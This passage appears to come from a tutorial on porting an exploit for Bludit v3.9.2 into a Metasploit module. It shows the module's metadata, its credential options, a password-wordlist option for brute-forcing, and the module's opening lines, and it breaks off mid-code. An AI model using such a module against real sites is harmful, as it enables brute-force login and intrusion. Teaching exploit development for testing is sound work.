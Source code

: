 ```ruby
          ['URL', 'https://github.com/bludit/bludit/issues/1081'],
          ['URL', 'https://github.com/bludit/bludit/commit/a9640ff6b5f2c0fa770ad7758daf24fec6fbf3f5#diff-6f5ea518e6fc98fb4c16830bbf9f5dac' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-09-07",
      'DefaultTarget'  => 0))
```

After the general identification information is filled in, we can move over to the `options` menu variables:

### **Proof-of-Concept - Functions**

```ruby
 register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
        OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
        OptString.new('BLUDITPASS', [true, 'The password for Bludit'])
      ])
  end
```

Looking back at our exploit, we see that a wordlist will be required instead of the `BLUDITPASS` variable for the module to brute-force the passwords for the same username. It would look something like the following snippet:

```ruby
OptPath.new('PASSWORDS', [ true, 'The list of passwords',
          File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
```

The rest of the exploit code needs to be adjusted according to the classes, methods, and variables used in the porting to the Metasploit Framework for the module to work in the end. The final version of the module would look like this:

### **Proof-of-Concept**

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::PhpEXE
  include Msf::Auxiliary::Report
  
  def initialize(info={})
    super(update_info(info,
```